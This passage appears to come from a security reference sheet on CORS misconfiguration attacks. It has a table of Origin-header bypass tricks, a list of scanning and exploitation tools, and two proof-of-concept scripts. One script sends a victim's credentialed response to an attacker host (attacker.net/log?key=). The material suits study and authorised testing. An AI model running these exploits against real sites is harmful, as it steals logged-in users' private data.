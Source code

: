 | Technique | Description | Example |
|----------|-------------|---------|
| **Reflected Origin** | Server echoes attacker’s `Origin` | `Origin: https://evil.com` |
| **Regex Bypass** | Exploit loose regex like `.*trusted.com` | `Origin: https://trusted.com.evil.com` |
| **Null Origin** | Use sandboxed iframe or data URI | `Origin: null` |
| **Subdomain Takeover** | Host payload on trusted subdomain | `Origin: https://sub.trusted.com` | `Origin: http://sub.trusted.com` |
| **Credentialed Requests** | Exploit `Access-Control-Allow-Credentials: true` | Combine with reflected origin |
| **Special Characters** | Use `%`, `@`, `` ` `` to bypass regex | `Origin: https://trusted.com%.evil.com` |

## Tools

* [s0md3v/Corsy](https://github.com/s0md3v/Corsy/) - CORS Misconfiguration Scanner
* [chenjj/CORScanner](https://github.com/chenjj/CORScanner) - Fast CORS misconfiguration vulnerabilities scanner
* [@honoki/PostMessage](https://tools.honoki.net/postmessage.html) - POC Builder
* [trufflesecurity/of-cors](https://github.com/trufflesecurity/of-cors) - Exploit CORS misconfigurations on the internal networks
* [omranisecurity/CorsOne](https://github.com/omranisecurity/CorsOne) - Fast CORS Misconfiguration Discovery Tool

#### Proof Of Concept

This PoC requires that the respective JS script is hosted at `evil.com`

```js
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://victim.example.com/endpoint',true); 
req.withCredentials = true;
req.send();

function reqListener() {
    location='//attacker.net/log?key='+this.responseText; 
};
```

or

```html
<html>
     <body>
         <h2>CORS PoC</h2>
         <div id="demo">
             <button type="button" onclick="cors()">Exploit</button>
         </div>
         <script>
             function cors() {
             var xhr = new XMLHttpRequest();
             xhr.onreadystatechange = function() {
                 if (this.readyState == 4 && this.status == 200) {
                 document.getElementById("demo").innerHTML = alert(this.responseText);
                 }
             };
              xhr.open("GET",
                       "https://victim.example.com/endpoint", true);
             xhr.withCredentials = true;
             xhr.send();
             }
         </script>
     </body>
 </html>
```